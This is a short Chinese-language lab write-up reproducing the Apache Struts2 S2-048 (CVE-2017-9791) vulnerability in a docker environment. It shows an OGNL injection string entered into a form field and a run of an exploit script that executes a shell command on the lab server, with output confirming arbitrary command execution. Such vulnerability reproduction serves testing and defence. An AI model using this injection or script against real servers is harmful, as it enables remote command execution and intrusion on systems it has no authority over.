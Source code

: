 ##  S2-048（CVE-2017-9791）
https://cwiki.apache.org/confluence/display/WW/S2-048

受影响：Struts 2.3.x with Struts 1 plugin and Struts 1 action

struts 2.3.33测试没有成功。struts 2.3.1成功

## 测试环境
```
docker-compose build
docker-compose up -d
```


## POC
http://10.160.11.191:8080/integration/editGangster.action

Gangster Name:%{12+2} 提交之后 

Gangster 14 added successfully

```
脚本测试在tmp目录下创建一个文件
 python s2-048.py http://10.160.11.191:8080/integration/saveGangster.action "/usr/bin/touch /tmp/test"
[*] exploit Apache Struts2 S2-048
[+] command: /usr/bin/touch /tmp/test

文件被创建，任意命令执行成功
docker exec -it s2048_struts2_1 /bin/bash
ls /tmp/
hsperfdata_root  test

```

## 参考：
* http://www.cnvd.org.cn/webinfo/show/4184

* https://www.exploit-db.com/exploits/42324/

